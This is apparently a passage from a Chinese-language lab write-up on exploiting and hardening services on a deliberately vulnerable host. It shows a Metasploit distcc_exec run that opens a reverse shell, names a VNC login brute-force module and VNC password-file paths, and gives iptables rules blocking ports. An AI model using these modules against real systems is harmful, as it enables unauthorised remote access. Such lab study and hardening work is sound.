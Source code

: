加固：

```
封堵端口
iptables -I INPUT -p TCP --destination-port 1524
```

### distccd

后门程序，提供远程命令执行

端口：3632

利用：

```
msf5 exploit(unix/misc/distcc_exec) > exploit 

[*] Started reverse TCP double handler on 192.168.247.1:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 1Og0JD4yJXeNmyX6;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "1Og0JD4yJXeNmyX6\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (192.168.247.1:4444 -> 192.168.247.250:44246) at 2019-03-07 15:29:09 +0800
```

加固：

```
封堵端口
# iptables -I INPUT -p TCP --destination-port 3632 -j DROP
```

### VNC

提供远程桌面服务

配置文件位置：~/.vnc/xstartup

密码文件：~/.vnc/passwd

mst2利用：

```
use auxiliary/scanner/vnc/vnc_login 

$ vncviewer host
```

加固：
